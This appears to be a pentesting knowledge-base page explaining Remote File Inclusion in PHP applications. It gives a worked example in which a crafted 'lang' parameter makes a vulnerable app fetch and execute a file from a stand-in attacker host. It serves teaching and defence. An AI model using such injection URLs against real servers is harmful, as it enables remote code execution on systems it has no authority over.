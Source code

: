 ```yaml
---
title: Remote File Inclusion
---
```


_Remote File Inclusion_ is a technique to include remote files and into a vulnerable application. Like [Local File Inclusion](/knowledge/offsec/pentesting/LFI.md), the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function.

One requirement for RFI is that the `allow_url_fopen` option needs to be on.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting ([XSS](/knowledge/offsec/pentesting/XSS.md))
- Denial of Service ([DoS](/DoS))

An external server hosting malicious files must communicate with the application server for a successful RFI attack. The malicious file is injected into the `include` fn via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

## Example

Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where cmd.txt contains PHP code:

```php
<?php echo "Hello World"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as

```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```

If there is no input validation, then the malicious URL passes into `include`. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.

